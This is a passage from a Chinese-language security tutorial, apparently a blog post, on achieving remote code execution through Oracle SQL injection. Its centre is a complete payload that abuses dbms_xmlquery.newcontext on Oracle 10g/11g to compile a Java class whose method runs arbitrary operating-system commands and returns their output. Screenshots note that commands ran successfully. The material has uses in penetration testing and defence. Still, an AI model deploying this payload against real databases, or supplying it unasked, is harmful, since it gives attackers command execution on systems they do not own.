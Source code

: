 这样设置完后我们再次执行系统命令

[![](assets/1710899076-cdf5bcacef08b09a52fc5785c884ab39.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101132-b0dec0e2-d5de-1.png)

[![](assets/1710899076-0852dc4946ce196e40f845548a32d36c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101136-b356e336-d5de-1.png)

成功的执行了系统命令

# Oracle 注入下的 RCE

上述介绍的 `Java Source`、`Function`、`Lib` 是 RCE 的几个原理，那在实际环境中，我们从外部注入，只能执行单条语句的时候，我们该怎么办呢？

## dbms\_xmlquery

影响版本：oracle 10g、11g，部分版本  
这里我的环境是 11.0.2.0 版本。  
在上述低版本中这个函数才可以进行 RCE，高版本都被修复了，这个函数本身是用来解析一段 XML 内容的，但是可以用来执行我们的 SQL 指令，可以把多条语句一起执行，起到多语句执行的目的

```plain
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
```

[![](assets/1710899076-d8cb0afc2f13a27c7011cf0ea782efbe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101145-b884751c-d5de-1.png)
